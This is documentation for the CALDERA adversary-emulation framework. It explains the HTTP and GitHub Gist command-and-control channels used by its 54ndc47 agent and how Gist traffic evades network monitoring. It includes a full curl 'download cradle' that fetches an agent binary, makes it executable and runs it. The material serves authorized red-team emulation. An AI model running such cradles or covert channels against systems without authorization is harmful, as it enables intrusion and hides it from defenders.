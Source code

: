 What is a C2?
===========

## Command and Control Channels

During the course of an operation, agents running on your target network need to communicate back to the CALDERA server in order to fetch actions, submit the results of executed actions and perhaps even exfiltrate data. This communication is often varied and disguised by [adversaries](https://attack.mitre.org/techniques/T1094/) in the wild. In an effort to achieve realistic adversary emulation, CALDERA makes it easy for you to simulate this type of activity on your own network. 
Out-of-the-box, CALDERA and 54ndc47 support two different command and control (C2) channels: communication over standard HTTP(S) and communication over GitHub Gist posts.  

### HTTP Communication

Let’s first start with the HTTP(S) channel, which 54ndc47 runs by default and requires no additional configuration by you. Defenders that are able to listen to standard HTTP traffic (or perhaps break SSL connections on their network perimeter) will be able to identify the agent’s communication back to CALDERA without too much headache. 

### GIST C2 Communication
GIST C2 communication aims to raise the bar of difficulty on detection through network monitoring by having all communication of an operation transpire through a series of private [GitHub GIST posts](https://gist.github.com) that can only be read by someone in control of your GitHub account. Configuration is relatively simple. You need to create a GitHub personal access token [here](https://github.com/settings/tokens), provide the token to the associated C2 [yaml file](https://github.com/mitre/stockpile/blob/master/data/contact/3dbb59fc-905c-4708-a4f2-e30bc9ac2903.yml), and ensure that you have the required GOLANG libraries installed on the box that hosts CALDERA. The golang required libraries are _github.com/google/go-github/github_ and _golang.org/x/oauth2_. (We attempt to install these libraries for you when you run our install script.) 

### How to use an alternative C2 channel

To tell an agent to use GIST posts as a C2 channel, you need to start it with the `-c2 gist` command line option. Addtionally, your download cradle that requests an agent binary from the CALDERA server should include the HTTP header 'c2:GIST' to inform CALDERA to compile the 54ndc47 with your Github Personal Access token and the necessary Golang code. The resulting download cradle will look something like this: 

`agent=$(curl -svkOJ -X POST -H 'file:sandcat.go' -H 'platform:darwin' -H ‘c2:GIST’ http://localhost:8888/file/download 2>&1 | grep -i 'Content-Disposition' | grep -io 'filename=.*' | cut -d'=' -f2 | tr -d '"\r') && chmod +x $agent 2>/dev/null && ./$agent -server http://localhost:8888 -group my_group -v -c2 GIST;`

Please note that the 54ndc47 plugin page will allow you to automatically generate this download cradle and specify what C2 channel you want.